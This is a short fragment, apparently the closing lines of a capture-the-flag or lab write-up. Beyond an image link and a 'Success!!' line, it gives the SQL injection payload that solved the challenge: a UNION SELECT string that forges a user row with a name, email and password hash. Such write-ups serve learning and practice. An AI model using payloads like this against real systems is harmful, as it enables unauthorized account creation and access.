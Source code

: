 </p>

Success!!

**The payload is `oke' UNION SELECT '3','minhdz','minhdz@gmail.com','202cb962ac59075b964b07152d234b70'--`**